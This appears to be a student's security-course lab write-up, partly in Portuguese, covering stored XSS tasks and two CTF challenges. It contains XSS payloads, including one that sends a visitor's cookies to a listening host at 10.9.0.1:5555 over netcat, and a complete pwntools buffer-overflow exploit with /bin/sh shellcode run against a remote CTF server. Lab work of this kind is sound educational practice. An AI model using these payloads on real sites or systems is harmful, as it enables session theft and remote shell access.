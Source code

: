 # Trabalho realizado na Semana #10

## Preparation: Getting Familiar with the"HTTP Header Live"tool

The HTTP Header Live tool can be used to view http requests in the browser:

![HTTP Header Live tool](header.png)

##  Task 1: Posting a Malicious Message to Display an Alert Window

The attack can be done by placing the scrypt `<script>alert("XSS");</script>` in a profile input, resulting in the
following alert:

![Boby alert](boby_xss.png)


## Task 2: Posting a Malicious Message to Display Cookies

The attack can be done by placing the scrypt `<script>alert(document.cookie);</script>` in a profile input, resulting in 
the following alert, showing the user's cookies:

![Boby cookies](boby_cookies.png)

##  Task 3: Stealing Cookies from the Victim’s Machine

You can steal the visiting user's cookies by placing the following code in the profile description:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '  >');</script>
```

Now, after someone visits your profile you can read their cookies by listening on the port 5555 with netcat: `nc -lknv 5555`

![Stealing cookies](cookies_user.png)

##  Task 4: Becoming the Victim’s Friend

You can force visitors to become your friend by embeding an http request in your profile's description, like so:

![HTTP Request script](samy.png)

Now, Alice visits Samy's profile and adds him as a friend without even noticing!

![Samy added as a friend](friend_samy.png)

## CTF: Desafio 1

O objetivo deste desafio era preparar um script de exploit e colocá-lo no formulário do pedido.
Depois, uma admin visitaria a página e esse script seria corrido. Esta era a única forma de obter a flag,
visto que os utilizadores comuns não têm permissões para aceitar o pedido.
Assim sendo, utilizá-mos o seguinte input:

```html
<script>document.querySelector("#giveflag").disabled = false; document.querySelector("#giveflag").click()</script>
```

Depois disto, podemos aceder à página do respetivo pedido e obtemos a flag:

![Flag da ctf 10-1](ctf10.png)

## CTF: Desafio 2

Neste desafio, o objetivo era obter controlo do servidor, executando uma shell.
Para tal, injetamos shellcode capaz de executar uma chamada system("bin/sh"): http://shell-storm.org/shellcode/files/shellcode-827.php
Visto que o programa nos fornece o endereço do buffer, colocamos este shellcode logo no início, facilitando
o resto do processo. Depois, utilizamos um buffer overflow para reescrever o endereço de retorno do main,
sendo retornado para o endereço onde está o nosso shellcode.

Encontra-se aqui o código do exploit:

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
print("Buffer:", addr)

buf = bytearray.fromhex(addr)
buf.reverse()
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)

p.sendline(shellcode + b"a"*77 + fp*2 + buf)

p.interactive()
```
